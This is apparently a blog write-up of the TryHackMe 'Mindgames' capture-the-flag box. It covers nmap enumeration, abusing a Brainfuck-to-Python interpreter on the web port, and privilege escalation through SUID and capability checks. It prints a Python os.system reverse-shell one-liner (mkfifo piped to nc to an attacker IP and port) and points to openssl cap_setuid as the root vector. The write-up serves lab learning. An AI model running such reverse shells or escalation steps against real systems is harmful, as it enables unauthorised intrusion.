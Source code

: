 ```yaml
---
title: Mindgames
tags: THM ctf linux
article_header:
  type: cover
published: true
author: krill
---
```

Just a terrible idea...

<!--more-->

## Enumeration

So much emphasis on enumeration, it is the key to successfully exploit a box.
nmap scan: 

`nmap -F -sV -sC -r -n 10.10.163.89 --min-rate 1000` 

```bash
    ┌─[krill@anonsurf]─[~/Boxes/THM/mindgames]
    └──╼ $nmap -F -sV -sC -r -n 10.10.163.89 --min-rate 1000  
    Starting Nmap 7.91 ( https://nmap.org ) at 2022-05-08 02:45 WAT
    Nmap scan report for 10.10.163.89
    Host is up (0.46s latency).
    Not shown: 98 closed ports
    PORT   STATE SERVICE VERSION
    22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
    | ssh-hostkey: 
    |   2048 24:4f:06:26:0e:d3:7c:b8:18:42:40:12:7a:9e:3b:71 (RSA)
    |   256 5c:2b:3c:56:fd:60:2f:f7:28:34:47:55:d6:f8:8d:c1 (ECDSA)
    |_  256 da:16:8b:14:aa:58:0e:e1:74:85:6f:af:bf:6b:8d:58 (ED25519)
    80/tcp open  http    Golang net/http server (Go-IPFS json-rpc or InfluxDB API)
    |_http-title: Mindgames.
    Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    Nmap done: 1 IP address (1 host up) scanned in 33.29 seconds
```

The nmap result shows that the box has 2 open ports; port 22 and 80, running an ssh server(OpenSSH 7.6p1) and an http server(Golang net/http).


### Golang net/http server [port: 80]
Visiting the webpage running on port 80, found some sort of esoteric programming; **Brainfuck** it is;  
![port 80](/images/THM/mindgames/page1.png)

`Brainfuck is an esoteric programming language created in 1993 by a Swiss physics student named Urban Müller, Brainfuck was an attempt to create a language with the smallest possible compiler` 

Also, right beneath, we've got a brainfuck code interpreter; Check it out!   
Pasting the Fibonacci brainfuck code, gives what looks like a Fibonacci sequence of number. .  mmmm..  
![compiler](/images/THM/mindgames/page2.png)

Decoding this with [`dcode`](https://www.dcode.fr/brainfuck-language) gives us a python code; noice :ghost: 

```python
def F(n):
    if n <= 1:
        return 1
    return F(n-1)+F(n-2)


for i in range(10):
    print(F(i))
``` 
now it's obvious uhn; let's pop a reverse shell with this ``python-netcat mega-combo oneliner``
:trollface:   
```python
import os
os.system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc <IP> <PORT> >/tmp/f")
```


## Exploitation
### Foothold: Initial access :bomb:
Since we know that the brainfuck interpreter executes any python code(in brainfuck) that we put into it, we can convert the above python reverse shell to brainfuck and execute it, using [`this site`](https://copy.sh/brainfuck/text.html).    

#### Listener: 
Create a netcat lilstener, to listen for incoming connections and also give us a shell.  
```bash
nc -lvnp 4444
```

#### Execution:
with the netcat listener running, paste the brainfuck-python reverse-shell code and run.  
you should get a shell just like this;  
```bash
┌─[krill@anonsurf]─[~/Boxes/THM/mindgames]
└──╼ $nc -lvnp 4444 
listening on [any] 4444 ...
connect to [10.2.126.43] from (UNKNOWN) [10.10.142.47] 49824
bash: cannot set terminal process group (734): Inappropriate ioctl for device
bash: no job control in this shell
mindgames@mindgames:~/webserver$ 
```
we got a shell with a user with low priviledges, we need to escalate :triumph:

### Priviledge Escalation
#### Root Hunting: Vertical privEsc :arrow_up:

with the current user, we can check for possible privesc vectors; 

#### SUID Bits:
you can check for suid bits using the following command:
```bash
find / -type f -perm -u=s 2>/dev/null 
```
```bash
mindgames@mindgames:~/webserver$ find / -type f -perm -u=s 2>/dev/null
/bin/ping
/bin/fusermount
/bin/umount
/bin/su
/bin/mount
/snap/core/8268/bin/mount
/snap/core/8268/bin/ping
/snap/core/8268/bin/ping6
/snap/core/8268/bin/su
/snap/core/8268/bin/umount
/snap/core/8268/usr/bin/chfn
/snap/core/8268/usr/bin/chsh
/snap/core/8268/usr/bin/gpasswd
/snap/core/8268/usr/bin/newgrp
/snap/core/8268/usr/bin/passwd
/snap/core/8268/usr/bin/sudo
/snap/core/8268/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/8268/usr/lib/openssh/ssh-keysign
/snap/core/8268/usr/lib/snapd/snap-confine
/snap/core/8268/usr/sbin/pppd
/snap/core/9066/bin/mount
/snap/core/9066/bin/ping
/snap/core/9066/bin/ping6
/snap/core/9066/bin/su
/snap/core/9066/bin/umount
/snap/core/9066/usr/bin/chfn
/snap/core/9066/usr/bin/chsh
/snap/core/9066/usr/bin/gpasswd
/snap/core/9066/usr/bin/newgrp
/snap/core/9066/usr/bin/passwd
/snap/core/9066/usr/bin/sudo
/snap/core/9066/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/snap/core/9066/usr/lib/openssh/ssh-keysign
/snap/core/9066/usr/lib/snapd/snap-confine
/snap/core/9066/usr/sbin/pppd
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/bin/chsh
/usr/bin/sudo
/usr/bin/chfn
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/traceroute6.iputils
/usr/bin/passwd
/usr/bin/newgidmap
/usr/bin/pkexec
/usr/bin/newuidmap
```
looking through this, i didn't find any privesc vector(there most likely is, maybe a zeroday.) 

#### Capabilities:
wait a sec, what are capabilities? 
```text
Linux Capabilities are used to allow binaries (executed by non-root users) to perform privileged operations without providing them all root priviledges.
```
checking for capabilities with the following command, gave something interesting :bulb:  
```bash
getcap -r / 2>/dev/null
```
```bash   
mindgames@mindgames:~/webserver$  getcap -r / 2>/dev/null
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/bin/openssl = cap_setuid+ep
/home/mindgames/webserver/server = cap_net_bind_service+ep
```

ooph, we meet again `openssl cap_setuid+ep` :smirk_cat:   
i already wrote a post on how to exploit this capability to get a root shell~   
check [`it`](https://krill-x7.github.io/2022/05/08/linuxPrivEsc.html) out.

## Conclusion
finally, you made it to the end GG . 

_Sayonara~:beers:_



